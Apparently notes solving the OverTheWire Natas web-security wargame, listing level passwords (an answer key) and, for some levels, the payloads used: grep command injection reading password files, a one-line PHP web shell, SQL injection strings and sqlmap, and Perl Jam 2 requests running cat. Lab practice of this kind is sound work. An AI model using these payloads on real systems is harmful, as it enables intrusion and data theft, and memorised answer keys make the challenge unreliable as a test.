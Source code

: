 #### Level1
* gtVrDuiDfck831PqWsLEZy5gyDz1clto

#### Level2
* ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

#### Level3
* natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

#### Level4
* natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

#### Level5
* natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

#### Level6
* aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

#### Level7
* /etc/natas_webpass/natas8
* 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

#### Level8
* DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

#### Level9
* W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

#### Level10
* curl -X GET "http://127.0.0.1:8001/level9.php?needle=-A+1+level1"
* grep -P '\d{4}' file.txt
* grep -i ; cat /etc/natas_webpass/natas10 file.txt
* nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

#### Level11
* grep -i $ cat /etc/natas_webpass/natas11 dictionary.txt
* U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

#### Level12
* curl -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK -H "Cookie: data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK" -X GET "http://natas11.natas.labs.overthewire.org/"
* EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

#### Level13
> 	$s=$_REQUEST['simba']; system($s);
* jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

#### Level14
* cat /etc/natas_webpass/natas14
* Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

#### Level15
>	 sqlmap -r r.req -p password
*	 " or "1"="1
* AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

#### Level16
* username=natas16" and hex(password) like "576149484561636a3633776e4e4942524f4865716933703974306d356e686d68%";-- -
* WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

#### Level 17
* 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

#### Level18
* xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

#### Level19
* 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

#### Level20
* payload: %0aadmin+1
* eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

#### Level21
* IFekPyrQXftziDEsUr3x21sYuahypdgJ

#### Level22
* La pagina1 no tiene la cookie con la key admin. Se modifica la cookie en la pagina2 con el parametro vulnerable y despues se reemplaza la cookie en la pagina1.
* chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

#### Level23
* payload "passwd=11iloveyou"
* D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE

#### Level24
* OsRmXFguozKpTZZ5X14zNO43379LZveg

#### Level25
* payload "passwd[]"
* GHF6X7YwACaYYssHVY05cFq83hRktl4c

#### Level26
* oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

#### Level27
* 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ

#### Level28
* JWwR438wkgTsNKBbcJoowyysdM82YjeF

#### Level29
* airooCaiseiyee8he8xongien9euhe8b

#### Level30
* wie9iexae0Daihohv8vuu3cei9wahf0e

#### Level31
* hay7aecuungiuKaezuathuk9biin0pu1

#### Level32
* The Perl Jam 2 Vulnerability
>   POST /index.pl?/bin/cat%20/etc/natas_webpass/natas32%20| HTTP/1.1

>>   -----------------------------416450785040312578442700592

>>   Content-Disposition: form-data; name="file";

>>   Content-Type: text/plain

>>   ARGV
* no1vohsheCaiv3ieH4em1ahchisainge

#### Level33
* The Perl Jam 2 Vulnerability 
>   POST /index.pl?/var/www/natas/natas32/getpassword%20| HTTP/1.1
* shoogeiGa2yee3de6Aex8uaXeech5eey

